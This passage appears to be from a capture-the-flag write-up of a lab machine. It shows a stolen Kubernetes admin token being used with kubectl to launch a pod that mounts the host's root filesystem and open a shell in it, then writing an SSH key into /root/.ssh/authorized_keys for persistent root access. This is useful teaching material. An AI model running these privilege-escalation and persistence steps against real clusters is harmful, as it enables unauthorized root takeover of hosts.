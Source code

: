       automountServiceAccountToken: true
      hostNetwork: true



I choose alpine because it's smaller, but I later tested and node_server
works too.

I've added the host filesystem `/` as a mount point inside the
container.

Pods (like Docker containers) run until their main command is done. I'll
just add a long sleep as the main command (`tail -f /dev/null` is
another good one to hold priority).

Now I'll start the container with the `apply` command:



    oxdf@parrot$ kubectl apply -f root.yaml --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
    pod/evil0xdf created



The `exec` command allows me to run `/bin/sh` inside the container:



    oxdf@parrot$ kubectl exec evil0xdf --stdin --tty -n kube-system --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt -- /bin/sh
    / # 



I can grab `root.txt`:



    /mnt/root # cat root.txt
    55383ee5************************



### Shell as root

Despite my efforts to keep my container running, there seems to be a
cron killing containers every minute or so. And I want a full shell
anyway.

I'll run the two commands again to recreate and get a shell in the
container, and then I'll write an SSH key. I'll need to create the
`/root/.ssh` directory:



    / # cd /mnt/root/
    /mnt/root # 
    /mnt/root # mkdir .ssh
    /mnt/root # echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > .ssh/authorized_keys



Now I can connect as root over SSH:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.235
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-70-generic x86_64)
    ...[snip]...
    root@unobtainium:~# 







